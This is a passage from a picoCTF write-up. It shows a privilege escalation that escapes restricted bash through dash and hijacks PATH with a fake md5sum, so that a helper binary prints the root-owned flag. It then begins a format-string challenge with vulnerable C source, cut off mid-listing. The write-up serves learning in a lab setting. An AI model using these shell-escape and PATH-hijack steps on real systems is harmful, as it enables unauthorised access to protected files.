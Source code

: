 This time we can't write to `/usr/bin/md5sum`. There's actually a third option I didn't discuss, setting `$PATH`, the environment variable that contains
all the directories the system will look for when running a command. By copying `cat` to the current directory, renaming it to `mdsum`, and setting the `$PATH` to the current
directory, `flaghasher` should run our fake version of `md5sum`:

```
ctf-player@pico-chall$ cp /usr/bin/cat ./md5sum
ctf-player@pico-chall$ pwd
/home/ctf-player
ctf-player@pico-chall$ export PATH='/home/ctf-player/'
-rbash: PATH: readonly variable
```

It would seem that we are logged in as restricted bash, which gives us a number of restrictions, including setting certain environment variables like `$PATH`. However, we are not restricted
from just running a different shell from here:

```
ctf-player@pico-chall$ ls /usr/bin | grep sh$
bash
c_rehash
chsh
dash
rbash
rsh
sh
ssh
```

Trying a few out, we see that `dash` (Debian Almquist shell) will work, even if it can't process the control codes that changes the color of text:
```
ctf-player@pico-chall$ dash
\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ export PATH='/home/ctf-player/'
\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{<FLAG>}
```

## Echo Valley

Back to exploiting binaries, though with our old friend the format string vulnerability.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");
```